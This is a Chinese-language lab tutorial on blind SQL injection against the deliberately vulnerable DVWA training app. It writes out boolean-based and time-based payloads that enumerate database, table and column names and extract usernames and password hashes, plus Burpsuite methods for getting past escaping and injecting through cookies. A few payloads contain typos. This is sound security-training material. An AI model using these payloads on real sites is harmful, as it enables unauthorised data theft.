










<!--more-->


# 6. SQL 盲注攻击实战

#### 6.1 SQL 盲注的分类

　　上一章介绍了按照注入类型，SQL 注入可以分为普通注入和盲注。当注入的页面无法直接显示数据内容，就只能靠盲注来猜解。盲注又可以具体分为布尔型盲注和延时型盲注。

　　布尔型盲注是指注入页面中没有直接显示数据内容，但会显示输出的结果对还是错，查询的数据有还是没有。比如输入的 ID 值查询到有该记录，就在页面上显示该记录存在；如果输入的 ID 值不存在，页面上就显示记录不存在，除此之外没有任何更多的信息，我们通过注入构造的任何 SQL 语句也只能返回存在或者不存在两种结果。通过返回结果的对或错来判断构造的 SQL 语句是否成立，这种盲注方式就是布尔型盲注。

　　对于某些 SQL 注入页面，可能页面中任何信息都不返回，甚至连记录是否存在都不告诉你，这时布尔型盲注也就无效了。但是基于 `sleep()` 函数可以实现延时查询，我们可以构造一个判断语法，如果返回结果为真，则延时 5 秒再进行查询操作。那么我们就可以通过观察提交 SQL 注入语句后，页面响应是否有延时卡顿，来判断我们构造的 SQL 语句是否成立。这种盲注方式就称为延时型盲注。

------

#### 6.2 Low 级别 SQL 盲注攻击实战

##### 6.2.1 布尔型盲注

1. 设置安全级别为 `Low`，点击 `SQL Injection (Blind)` 按钮进入 `SQL` 盲注攻击模块，随便输入 `ID` 值，发现只返回一个结果 `User ID exists in the database`，告诉我们该 `ID` 存在，没有显示关于该 `User` 的任何信息，如图 6-1。说明该页面只能通过盲注来攻击

   

   

   图 6-1

   

2. 文本框中输入 `1 and 1=1` 和 `1 and 1=2` 都返回结果 `exists`，说明不是数字型注入点，如图 6-2，图 6-3

   

   

   图 6-2

   

   

   

   图 6-3

   

3. 在文本框中输入 `1' and 1=1#`，返回结果 `exists`，如图 6-4，输入 `1' and 1=2#`，返回结果 `MISSING`，说明存在 SQL 注入漏洞，为字符型，如图 6-5

   

   

   图 6-4

   

   

   

   图 6-5

   

4. 在文本框中输入 `1' and length(database())=1#`，返回结果 `MISSING`，说明当前数据库名长度大于 1 个字符，截图略

   ```
   length(database())      //当前数据库名的长度
   ```

5. 逐个猜测数据库名字长度，直到输入 `1' and length(database())=4#` 时，返回结果 `exists`，说明当前数据库名长度为 4 字符，截图略

6. 在文本框中输入 `1' and ascii(substr(database(),1,1))>97#`，返回结果 `exists`，输入 `1' and acsii(substr(database(),1,1))<122#`，返回结果 `exists`，说明数据库名的第一位字符是小写字母。（小写字母 a 的 ASCII 码为 97，小写字母 z 的 ASCII 码为 122），截图略

   ```
   substr(database(),1,1)       //截取数据库名称，从第一个字符开始截，一共截取1个字符
   ascii()                      //取括号中的字符的 ASCII 码
   ```

7. 通过增加数字 97 来逐步缩小范围，直到输入 `1' and ascii(substr(database(),1,1))>100#`，返回结果 `MISSING`，说明数据库名的第一个字符的 ASCII 码正好是 100，也就是小写字母 `d`，截图略

8. 在文本框中输入 `1' and ascii(substr(database(),2,1))<119#`，返回结果 `exists`，输入 `1' and ascii(substr(database(),2,1))<118#`，返回结果 `MISSING`，说明第二位字符是小写字母 `v`，截图略

9. 使用相同的方法，最终可以猜测出数据库名为 `dvwa`

10. 在文本框中输入 `1' and (select count(table_name) from information_schema.tables where table_schema=database())=1#`，返回结果 `MISSING`，输入 `1' and (select count(table_name) from information_schema.tables where table_schema=database())=2#`，返回结果 `exists`，说明当前数据库中存在 2 张表，截图略

11. 在文本框中输入 `1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=1#`，返回结果 `MISSING`，逐步增大猜测数字，直到猜测数字 9，返回结果 `exists`。最后得知数据库中第一张表名长度为 9 字符，截图略

    ```
    select table_name from information_schema.tables where table_schema=database() limit 0,1
    //查询当前数据库中的表名，只取第 0 和第 1 条记录之间的记录，也就是查询出的第一张表名
    ```

12. 在文本框中输入 `1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,2))=1#`，返回结果 `MISSING`，逐步增大猜测数字，直到猜测数字 5，返回结果 `exists`。最后得知数据库中第二张表名长度为 5 字符，截图略

    ```
    select table_name from information_schema.tables where table_schema=database() limit 1,2
    //查询当前数据库中的表名，只取第 1 和第 2 条之间的记录，也就是查询出的第二张表名
    ```

13. 在文本框中输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97#`，返回结果 `exists`，输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122#`，返回结果 `exists`，说明第一张表名的第一位字符为小写字母 (原理同第 6 步)

14. 逐步缩小范围，最终可确认第一张表名的第一位字符为字母 g。输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>97#`，猜解第一张表名的第二位字符，过程略

15. 输入 `1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,2),1,1))>97#`，猜解第二张表名的第一位字符。重复上述步骤最终可猜解出两个表名分别为 `guestbook` 和 `users`，过程略

16. 输入 `1 and (select count(column_name) from information_schema.columns where table_name='users')=1 #`，来猜解 `users` 表中的字段数量，通过不断加大猜解数字来缩小范围，最终确定字段数量，过程略

17. 输入 `1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=1 #`，猜解 `users` 表中第一个字段名的长度，过程略

18. 输入 `1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1)1,1))<97#`，猜解表中第一个字段名的第一位字符内容，原理同上，过程略

19. 最终猜解出存在 `user` 和 `password` 字段，原理同上，过程略

20. 输入 `1' and ascii(substr((select user from users limit 0,1),1,1))<97#`，来猜解第一个用户的用户名的第一位字符内容。最终可以猜解出所有用户的用户名和密码密文，原理同上，过程略

##### 6.2.2 延时型盲注

1. 在文本框输入 `1' and sleep(5)#`，页面响应有明显延时，输入 `1 and sleep(5)`，页面响应迅速，说明该注入点为字符型

2. 在文本框输入 `1' and if(length(database())=1,sleep(5),1)#`，页面没有延时，说明 `length(database())=1` 结果为假，当前数据库名长度不为 1；逐步增加猜测数字，直到输入 `1' and if(length(database())=4,sleep(5),1)#`，页面延时，说明当前数据库名长度为 4

3. 在文本框输入 `1' and if(ascii(substr(database(),1,1))>97,sleep(5),1)#`，页面延时；输入 `1' and if(ascii(substr(database(),1,1))<9122,sleep(5),1)#`，页面没有延时，说明当前数据库名第一个字符为小写字母，原理同布尔型盲注。逐渐缩小猜解范围，页面有延时说明猜解正确，页面无延时说明猜解错误，最终可猜解出数据库名第一个字符内容为 d

4. 后续步骤思路与布尔型盲注一致，只需要按照语法把要猜解的条件代入，再根据页面响应是否出现延时来判断构造的 SQL 注入语句是否成立，就可以逐步猜解出需要查询的数据库信息，过程略。注入语法如下：

   ```
   1' and if (要猜解的条件,sleep(5),1)#  
   //判断，如果要猜解的条件成立，则返回 sleep(5)，延时 5 秒；不成立则返回数字 1
   ```

------

#### 6.3 Medium 级别 SQL 盲注攻击实战

1. 设置安全级别为 `Medium`，在 SQL 盲注攻击界面看到与 SQL 注入攻击的 Medium 级别一样，只给出了选择框，没有给用户输入信息的地方。且提交后 `URL` 没有携带任何信息，说明页面提交方式为 `POST`。基于上述判断，需要使用 `Burpsuite` 来构造数据包，如图 6-6

   

   

   图 6-6

   

2. 查看页面源码，发现也与 SQL 注入攻击的 `Medium` 级别一样，使用了 `mysqli_real_escape_string` 函数，如图 6-7，对引号进行转义，会导致带引号的 SQL 注入参数出错。

   

   

   图 6-7

   

3. 根据上一章节 `Medium` 级别 SQL 注入的绕过方法，该级别的 SQL 盲注只需要在 `Low` 级别的基础上使用 `Burpsuite` 拦截数据包来添加注入信息，并把凡带有引号的值进行 HEX 编码，就可以成功绕过限制，过程略

------

#### 6.4 High 级别 SQL 盲注攻防

1. 安全级别设置为 High，在 SQL 盲注攻击页面看到与 SQL 注入攻击的 High 级别一样，把提交信息的页面和输出结果的页面进行了分离来防御 SQLMap 等工具的自动化注入，如图 6-8

   

   

   图 6-8

   

2. 查看页面源码，发现变更为使用 `cookie` 来传递 ID 值，加入了 `LIMIT 1`，来限制查询更多的数据，并通过 `sleep()` 函数来造成查询不到数据时随机延时，从而扰乱基于延时的 SQL 盲注，如图 6-9

   

   

   图 6-9

   

3. 对于使用 `cookie` 来传递 ID 值，我们可以使用 `Burpsuite` 抓包来修改 `cookie`；对于 `LIMIT 1`，使用 `#` 注释掉；对于 `sleep()` 函数，正常使用布尔型盲注就可以了

4. 设置好 `Burpsuite` 和浏览器的代理，随便输入一个 `ID` 值，拦截数据包后，第一个数据包正常放行，修改第二个数据包，在 `cookie:id=1` 后加入 `' and length(database())=1#`，返回结果 `MISSING`，如图 6-10，图 6-11；加入 `' and length(database())=4#`，返回结果 `exists`，如图 6-12，图 6-13。发现可以成功注入，并猜解出当前数据库名的长度为 4

   

   

   图 6-10

   

   

   

   图 6-10

   

   

   

   图 6-11

   

   

   

   图 6-12

   

5. 后续猜解步骤思路与 `Low` 级别一致，只需要在 `Burpsuite` 中对 `cookie` 值进行注入即可

------

#### 6.5 Impossible 级别 SQL 盲注攻击

　　设置安全级别为 `Impossible`，查看 SQL 盲注页面源码，发现使用了 `PDO` 技术，几乎彻底杜绝了 SQL 注入；另外还使用了 `Anti-CSRF token` 机制，使用随机 `token` 来阻止自动化注入。该防御机制下，SQL 盲注几乎无法实现，如图 6-13
　　




图 6-13